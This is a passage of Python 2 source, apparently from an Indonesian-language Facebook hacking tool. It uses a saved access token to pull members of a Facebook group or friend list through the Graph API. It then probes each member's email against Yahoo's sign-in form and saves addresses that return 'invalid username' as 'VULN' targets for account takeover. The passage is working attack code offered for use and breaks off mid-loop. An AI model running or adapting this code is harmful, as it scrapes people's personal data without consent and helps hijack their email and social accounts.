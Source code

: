 				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+nama)
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/FriendMailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()
	
##### YAHOO MEMBER #####
def yahoomember():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	mpsh = []
	jml = 0
	id=raw_input('\033[1;91m[+] \033[1;92mInput ID group \033[1;91m:\033[1;97m ')
	try:
		r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)
		asw=json.loads(r.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom group \033[1;91m:\033[1;97m "+asw['name']
	except KeyError:
		print"\033[1;91m[!] Group not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	jalan('\033[1;91m[✺] \033[1;92mGetting email from group \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)
	kimak = json.loads(teman.text)
	save = open('out/GrupMailVuln.txt','w')
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)